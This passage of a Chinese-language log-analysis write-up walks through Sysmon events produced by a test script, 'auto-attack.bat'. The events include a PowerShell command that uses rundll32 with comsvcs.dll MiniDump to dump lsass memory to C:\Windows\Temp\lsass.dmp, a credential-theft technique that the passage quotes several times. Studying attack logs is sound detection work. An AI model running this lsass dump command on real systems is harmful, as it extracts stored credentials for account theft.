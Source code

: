    ParentImage C:\Windows\System32\cmd.exe 
    ParentCommandLine "C:\Windows\System32\cmd.exe" /C "C:\Users\Admin\Desktop\auto-attack.bat"  
    ParentUser W10C\Admin 
    OriginalFileName choice.exe 
    CommandLine choice /c YN
    ```
5. PowerShell - Get lsass.dmp
    這條command就好玩了，接著auto-attack.bat又接續執行powershell，並且執行command如下，這一條command一開始看不太懂，隨便搜尋發現是一個經典的payload，主要是參考@3gstudent的文章[《MiniDumpWriteDump via COM+ Services DLL》的利用測試](https://3gstudent.github.io/MiniDumpWriteDump-via-COM+-Services-DLL-%E7%9A%84%E5%88%A9%E7%94%A8%E6%B5%8B%E8%AF%95)，一般來說我們都會想辦法用procdump之類的工具把lsass或是SYSTEM dump出來，但其實也可以用其他internal dll呼叫MiniDump的方式，把東西拿到手，範例的話可以參考[comsvcs MiniDump examples](https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e)
    > "C:\Windows\System32\rundll32.exe"  C:\Windows\System32\comsvcs.dll MiniDump \<PID> \Windows\Temp\<filename>.dmp full
    
    其實就和這一條payload有87趴像，中間的 ==((Get-Process lsass).Id)== 就是在抓lsass的PID，另外@3gstudent也有提到這個必須要是管理員權限才可以執行
    ```
    ParentProcessId 7544 
    ParentImage C:\Windows\System32\cmd.exe 
    ParentCommandLine "C:\Windows\System32\cmd.exe" /C "C:\Users\Admin\Desktop\auto-attack.bat"  
    ParentUser W10C\Admin 
    OriginalFileName PowerShell.EXE 
    CommandLine powershell.exe -NoProfile -Command "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\Windows\Temp\lsass.dmp full"
    ProcessId 8832
    ```
    
    接著就是真的實際執行該條command後拿到lsass.dmp
    ```
    ParentProcessId 8832 
    ParentImage C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
    ParentCommandLine powershell.exe -NoProfile -Command "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\Windows\Temp\lsass.dmp full" 
    ParentUser W10C\Admin 
    OriginalFileName RUNDLL32.EXE 
    CommandLine "C:\Windows\system32\rundll32.exe" C:\Windows\System32\comsvcs.dll MiniDump 892 C:\Windows\Temp\lsass.dmp full 
    ```
6. Event ID: 11 - FileCreate
    ```
    TargetFilename C:\Windows\Temp\lsass.dmp 
    CreationUtcTime 2023-12-17 07:10:29.916 
    User W10C\Admin 
    ```
7. Timeout
    從以下紀錄得知auto-attack.bat又繼續搞事，看了[MSDN](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/timeout)的說明，有點類似sleep的功能，雖然不知道加這行要幹嘛?
    ```
    ParentProcessId 7544 
    ParentImage C:\Windows\System32\cmd.exe 
    ParentCommandLine "C:\Windows\System32\cmd.exe" /C "C:\Users\Admin\Desktop\auto-attack.bat"  
    ParentUser W10C\Admin
    ProcessId 6080 
    OriginalFileName timeout.exe 
    CommandLine TIMEOUT /T 3 
    ```
8. FileCreate - notepad.exe
    這個我猜是直接embedded在auto-attack.bat裡面的一段notepad的bytecode，以防受害電腦沒有notepad.exe就可以直接創一個(?)不是很確定
    ```
    Image C:\Windows\System32\cmd.exe 
    TargetFilename C:\Windows\Temp\notepad.exe
    CreationUtcTime 2023-12-17 07:10:32.119 
    User W10C\Admin 
    ```